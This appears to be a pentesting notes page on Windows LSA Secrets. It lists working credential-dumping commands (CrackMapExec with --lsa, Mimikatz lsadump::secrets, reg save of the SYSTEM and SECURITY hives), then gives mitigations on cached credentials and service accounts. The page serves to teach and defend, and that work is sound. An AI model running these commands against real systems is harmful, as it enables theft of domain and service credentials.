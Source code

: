 ```yaml
---
description: Additional information on LSA Secrets
---
```


# LSA Secrets

### Dumping LSA Secrets

Dumping LSA Secrets with CrackMapExec:

`crackmapexec smb [HOST] -u [USER] -p [PASSWORD] --lsa`

Dumping LSA Secrets with Mimikatz:

`lsadump::secrets`

Dumping LSA Secrets manually and then reading them with Mimikatz

`reg save HKLM\SYSTEM system & reg save HKLM\security security`

`lsadump::secrets /system:c:\temp\system /security:c:\temp\security`

### Mitigations

When researching LSA Secrets on [MITRE](https://attack.mitre.org/techniques/T1003/004/) it appears as though the only mitigation to LSA Secrets being dumped is through detection. However, this is not the case.

The following settings can be configured to remove cached domain credentials from LSA Secrets:

`Cached credential set to 0 on server`

`Cached credential set to 1 on workstation`

Additionally, when cleartext credentials are retrieved from LSA Secrets it is due to the credentials being stored for a service (E.g., creating a service with a custom user account). To mitigate this issue, avoid using a custom user account to create the service.&#x20;

### References

* [Dumping and Cracking mscash ](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)
* [Preventing 4 Common Methods of Credentials Exfiltration](https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration/)
* [Windows LSA Secrets](https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=23)


